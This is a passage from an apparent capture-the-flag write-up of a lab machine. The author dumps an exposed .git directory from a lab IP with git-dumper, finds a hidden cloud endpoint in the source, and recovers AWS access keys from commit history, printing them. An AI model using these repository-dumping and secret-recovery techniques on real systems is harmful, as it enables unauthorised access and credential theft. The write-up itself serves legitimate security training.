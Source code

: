 <figure><img src="../../../.gitbook/assets/image (62) (3).png" alt=""><figcaption></figcaption></figure>

This was a Werkzeug application, which indicates it might be running Flask. The login function presented nothing of interest.

### Gitdumper

I used `git-dumper` to download all the files from this repository.

{% embed url="https://github.com/arthaud/git-dumper" %}

```bash
git_dumper.py http://10.129.86.151/.git .
```

This downloaded 2 files, a `server.py` and a `track_api_CR_148.py`. It was in the track script that I found this:

```python
session = Session(
    aws_access_key_id='<aws_access_key_id>',
    aws_secret_access_key='<aws_secret_access_key>',
    region_name='us-east-1',
    endpoint_url='http://cloud.epsilon.htb')
aws_lambda = session.client('lambda')
```

So there's a hidden host present there. To dig deeper, we can read the logs of this repository to hopefully find the secret keys that have been removed. Reading the logs helped me find these tokens:

```
aws_access_key_id='AQLA5M37BDN6FJP76TDC'
aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A'
region_name='us-east-1'
```
